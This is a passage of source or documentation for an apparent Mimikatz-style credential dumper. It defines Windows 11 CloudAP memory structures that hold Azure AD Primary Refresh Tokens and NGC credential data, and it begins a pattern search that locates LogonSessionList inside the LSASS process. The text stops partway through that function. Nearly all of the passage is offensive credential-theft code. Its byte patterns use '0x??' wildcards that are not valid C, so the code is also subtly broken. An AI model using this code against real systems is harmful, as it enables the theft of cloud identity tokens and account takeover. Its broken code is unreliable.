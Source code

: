 ## CloudAP (Azure AD) Structures

### Windows 11 25H2 CloudAP

CloudAP is increasingly important as organizations move to Azure AD / Entra ID.

```c
typedef struct _KIWI_CLOUDAP_LOGON_LIST_ENTRY_25H2 {
    struct _KIWI_CLOUDAP_LOGON_LIST_ENTRY_25H2 *Flink;
    struct _KIWI_CLOUDAP_LOGON_LIST_ENTRY_25H2 *Blink;
    PVOID unk0;
    PVOID unk1;
    PVOID unk2;
    LUID LocallyUniqueIdentifier;
    LSA_UNICODE_STRING Username;
    LSA_UNICODE_STRING Domain;
    LSA_UNICODE_STRING TenantId;
    // PRT (Primary Refresh Token) data
    PVOID pPRTData;
    DWORD cbPRTData;
    // NGC (Next Generation Credentials) data
    PVOID pNGCData;
    DWORD cbNGCData;
    // Additional 25H2 fields
    PVOID unk3;
    PVOID unk4;
} KIWI_CLOUDAP_LOGON_LIST_ENTRY_25H2, *PKIWI_CLOUDAP_LOGON_LIST_ENTRY_25H2;
```

### PRT (Primary Refresh Token)

The PRT is the key credential for Azure AD authentication:

```c
typedef struct _CLOUDAP_PRT {
    BYTE version;
    DWORD cbPRT;
    BYTE prtData[]; // Encrypted JWT token
} CLOUDAP_PRT, *PCLOUDAP_PRT;
```

## LogonSessionList Location

### Pattern-Based Search

The LogonSessionList is the entry point to all logon sessions. Its location varies per build.

```c
// Windows 11 25H2 LogonSessionList search patterns
BYTE LogonSessionListPattern_25H2[] = {
    0x48, 0x8B, 0x0D, 0x??, 0x??, 0x??, 0x??,  // mov rcx, [LogonSessionList]
    0x48, 0x85, 0xC9,                           // test rcx, rcx
    0x74, 0x??                                  // jz short
};

BYTE LogonSessionListMask_25H2[] = {
    0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x00, 0x00,
    0xFF, 0xFF, 0xFF,
    0xFF, 0x00
};

PVOID FindLogonSessionList(PKULL_M_MEMORY_HANDLE hLsass,
                          PKULL_M_PROCESS_VERY_BASIC_MODULE_INFORMATION lsasrv) {
    PVOID result = NULL;
    MEMORY_SEARCH search = {
```